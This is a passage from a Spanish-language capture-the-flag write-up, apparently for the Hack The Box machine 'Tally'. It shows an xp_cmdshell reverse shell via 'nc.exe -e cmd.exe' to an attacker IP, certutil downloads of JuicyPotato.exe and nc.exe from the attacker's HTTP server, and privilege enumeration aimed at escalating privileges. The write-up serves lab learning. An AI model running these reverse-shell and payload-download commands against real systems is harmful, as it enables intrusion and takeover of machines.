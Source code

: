 ```bash
(5 rows affected, return status = 0)
1>
```

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.59 - - [19/Nov/2021 12:50:41] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.59 - - [19/Nov/2021 12:50:41] "GET /nc.exe HTTP/1.1" 200 -
```

Y ahora nos entablamos la conexión:

```bash
1> xp_cmdshell "C:\Windows\Temp\nc.exe -e cmd.exe 10.10.14.27 443"
2> go
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.59] 49936
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
tally\sarah
C:\Windows\system32>
```

Ya nos encontramos dentro de la máquina y podemos visualizar la flag (user.txt). Ahora solo nos queda escalar privilegios, por lo que vamos a enumerar un poco el sistema.

```bash
C:\Users\Sarah\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

C:\Users\Sarah\Desktop>

```

Vemos que tenemos el privilegio `SeImpersonatePrivilege` habilitado, por lo que ya debemos estar pensando en un [***Juicy Potato***](https://github.com/ohpe/juicy-potato/releases/tag/v0.1).

```bash
C:\Users\Sarah\Desktop> cd C:\Windows\Temp
C:\Windows\Temp> mkdir Privesc
C:\Windows\Temp> cd Privesc
C:\Windows\Temp\Privesc> certutil.exe -f -urlcache -split http://10.10.14.27/JuicyPotato.exe JP.exe
****  Online  ****
  000000  ...
  054e00
CertUtil: -URLCache command completed successfully.

C:\Windows\Temp\Privesc> certutil.exe -f -urlcache -split http://10.10.14.27/nc.exe nc.exe
****  Online  ****
  0000  ...
```
